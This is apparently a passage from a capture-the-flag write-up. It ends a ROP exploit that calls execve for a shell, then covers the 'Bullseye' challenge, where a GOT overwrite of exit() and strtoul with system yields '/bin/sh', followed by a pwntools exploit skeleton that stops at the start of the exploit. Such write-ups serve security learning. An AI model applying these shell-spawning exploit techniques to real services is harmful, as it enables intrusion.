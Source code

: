 ```py
	pop_rax,
	0x3b,
	syscall #do execve.
])
io.sendline(rop)
io.interactive()
#flag{radically_statically_roppingly_vulnerable}
```
## Bullseye
points - 150
You have one write, don't miss.

Connect with:
nc jh2i.com 50031

No-Pie, and Partial-Relro,
This challenge allowed us to write anything at anywhere into memory,
Got was partial-relro, exit() was called at the end, so i choose to overwrite exit() got with main, and binary prints a libc address,
find libc address with libc-database, we get another chance to overwrite this time i chose to overwrite strtoul with system.
and send '/bin/sh'.

#### exploit
```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./B')

host = args.HOST or 'jh2i.com'
port = int(args.PORT or 50031)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
```